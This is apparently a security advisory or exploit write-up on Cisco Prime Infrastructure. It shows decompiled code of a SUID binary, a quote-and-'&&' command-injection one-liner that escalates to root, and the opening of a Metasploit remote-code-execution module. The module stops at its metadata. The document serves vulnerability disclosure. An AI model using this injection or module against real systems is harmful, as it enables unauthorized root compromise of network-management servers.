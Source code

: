 ```c
    for ( i = 1; argc - 1 >= i; ++i )
    {
        strcat(&dest, argv[i]);
        strcat(&dest, " ");
    }
    strcat(&dest, "\"");
    return (system(&dest) & 0xFF00) >> 8;
}
```
As it can be seen above, the binary uses the system() function to execute:
/bin/bash -r -c “<CMD>”. with the PATH set to /opt/CSCOlumos/rcmds, and the restricted (-r) flag passed to bash, meaning that only commands in the PATH can be executed, environment variables cannot be changed or set, directory cannot be changed, etc.<br>
However, due to the way system() function calls “bash -c”, it is trivial to inject a command by forcing an end quote after <CMD> and the bash operator ‘&&’:
[prime@prime34 ~]$ /opt/CSCOlumos/bin/runrshell ‘” && /usr/bin/whoami #’<br>
root

**Exploit**<br>
```ruby
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::EXE
  include Msf::Exploit::FileDropper
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Cisco Prime Infrastructure Unauthenticated Remote Code Execution',
      'Description'    => %q{
        Cisco Prime Infrastructure (CPI) contains two basic flaws that when exploited allow
        an unauthenticated attacker to achieve remote code execution. The first flaw is a file
        upload vulnerability that allows the attacker to upload and execute files as the Apache
        Tomcat user; the second is a privilege escalation to root by bypassing execution restrictions
        in a SUID binary.
        This module exploits these vulnerabilities to achieve unauthenticated remote code execution
        as root on the CPI default installation.
        This module has been tested with CPI 3.2.0.0.258 and 3.4.0.0.348. Earlier and later versions
        might also be affected, although 3.4.0.0.348 is the latest at the time of writing.
      },
      'Author'         =>
        [
          'Pedro Ribeiro'        # Vulnerability discovery and Metasploit module
        ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', 'TODO' ],
          [ 'CVE', 'TODO' ],
          [ 'URL', 'TODO' ],
          [ 'URL', 'TODO' ]
        ],
      'Platform'       => 'linux',
      'Arch'           => [ARCH_X86, ARCH_X64],
      'Targets'        =>
        [
          [ 'Cisco Prime Infrastructure', {} ]
        ],
      'Privileged'     => true,
```